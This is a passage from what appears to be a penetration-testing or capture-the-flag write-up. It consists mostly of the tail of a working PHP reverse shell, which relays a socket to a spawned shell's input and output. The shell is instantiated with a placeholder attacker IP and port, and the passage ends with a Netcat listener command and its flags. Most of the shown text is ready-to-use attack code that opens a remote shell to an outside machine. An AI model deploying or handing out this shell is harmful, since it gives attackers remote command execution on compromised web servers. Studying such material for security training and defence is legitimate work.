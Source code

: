 ```php
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell(<OUR ATTACKER MACHINE IP>, <PORT THAT TARGET WILL USE TO CONNECT TO OUR ATTACKER MACHINE>);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```
For this to work we need to have a listener open on our machine. So we can use 
the Netcat command to open a listener on our machine
```bash
nc -lnvp port
```
- `-l` - This tells the Netcat utility to operate in listen mode.
- `-n` - This tells the Netcat utility to skil DNS resolution.
- `-v` - This tells the Netcat utility to operate in verbose mode.